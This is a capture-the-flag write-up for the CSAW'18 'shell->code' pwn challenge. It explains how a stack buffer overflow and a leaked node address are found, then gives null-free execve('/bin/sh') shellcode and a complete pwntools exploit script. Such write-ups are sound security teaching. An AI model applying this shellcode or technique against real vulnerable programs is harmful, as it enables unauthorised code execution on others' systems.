

**Points:** 100

**Solves:** 261

**Description:**

> Linked lists are great! They let you chain pieces of data together.
>
> `nc pwn.chal.csaw.io 9005`
>
> flag format: `flag{...}`

**Given:**

[shellpointcode](shellpointcode)

# Introduction

shell->code was a 100 points pwn challenge on the CSAW’18 CTF Qualification Round

# Reversing (The Problem)

The clue was: "Linked lists are great! They let you chain pieces of data together"

Running checksec on the binary gives the following result:




This gives us a few clues already:

1. NX is disabled and there are RWX segments, which points to possible shellcode injection.
2. Full RELRO means that we can't overwrite the GOT.
3. No stack canary, which points to a possible buffer overflow vulnerability.

Running the program, it asks twice for 15 bytes of data, to store on two separate linked list nodes, node 1 and node 2. Then it leaks the second node's address through the "next" pointer in the first node.
Finally, it asks for our initials and then prints a goodbye message using our input.

Let's check it out in IDA Free:


Here we can confirm that we are only allowed to store the 15 bytes the program asks for, so no overflows in this part. However, we can see a call to the goodbye function which, I assume, is where the programs asks for our initials and says goodbye.


And indeed, we see the stack frame growing 16 bytes, and fgets reading 0x20 bytes into [rbp - 3], which means we have 29 bytes of overflow.

Testing it out wields the following result:


Aha! Just as we expected. So, there's our buffer overflow. With this, we should have enough space to overwrite the saved return address. Let's find out the offset between our input and the saved return address in gdb.


The highlighted value is what we want to overwrite and it's 11 bytes away from where our input is stored.

Now the only thing left to know is where the nodes are, relative to each other, so we can have the big picture of what's going on.
Again using gdb, we can see that node 2 (lower address) is higher than node 1 (higher address) on the stack, 32 bytes appart.


(node 1 is filled with A's (0x41) and node 2 is filled with B's (0x42))

# The Solution

Recap:
We have a leak from an address where we can store 15 bytes of data and we know the offset from this address to the other address where we can store another 15 bytes.
From checksec, we know the binary doesn't have NX enabled, so we can execute code on the stack.

I solved this challenge by injecting shellcode in both nodes, and jumping between them with a short jump to save space. The script was developed in python using the pwntools library.

We have to keep in mind that fgets stops when it sees a \x00, so our shellcode can't have any of those.

```assembly
   ; complement of "/bin/sh\x00"
   mov rbx, 0xff978cd091969dd0
   not rbx
   jmp short $+20

   xor rsi, rsi
   push 59
   pop rax
   push rbx
   mov rdi, rsp

   syscall
```

First, the complement of "/bin/sh\x00" is moved into the rbx register, and then, before we push rbx we run a not on it. This way, we can push "/bin/sh\x00" without any 0's in our code.
Then I found the exact offset on gdb to where we wanted our code to jump to and hardcoded it. The rest is straightforward x86-64, avoiding instructions with 0's in them.
This code is 27 bytes long and calls sys_execve("/bin/sh\x00", null, null). It's split into 15 bytes in node 2 and 12 bytes in node 1.

```python
#!/usr/bin/env python2.7
from pwn import *
binary_path = "./shellpointcode"

SERVER = "pwn.chal.csaw.io"
PORT = 9005
# Change to False to interact with the server
local = False
if local:
   p = process(binary_path, timeout=9999)
else:
   p = remote(SERVER, PORT, timeout=9999)

"""
    xor rsi, rsi
    push 59
    pop rax
    push rbx
    mov rdi, rsp

    syscall
"""
node_1 = "\x48\x31\xf6\x6a\x3b\x58\x53\x48\x89\xe7\x0f\x05"

"""
    mov rbx, 0xff978cd091969dd0
    not rbx
    jmp short $+20
"""
node_2 = "\x48\xbb\xd0\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xd3\xeb\x12"

padding = 'A'*11

p.sendline(node_1)
p.sendline(node_2)
p.recvuntil("node.next:")

# parse the leaked address
node_2_addr = p.recvline()
"""
we add 8 to the leaked address, because our input is at
offset 8 from the start of node 2 which is the leaked address,
being the first 8 bytes reserved to the pointer to the next node on the list.
"""
rip = p64(int(node_2_addr, 16) + 8)
p.sendline(padding + rip)
p.interactive()
```

Now we run the script and get the flag!


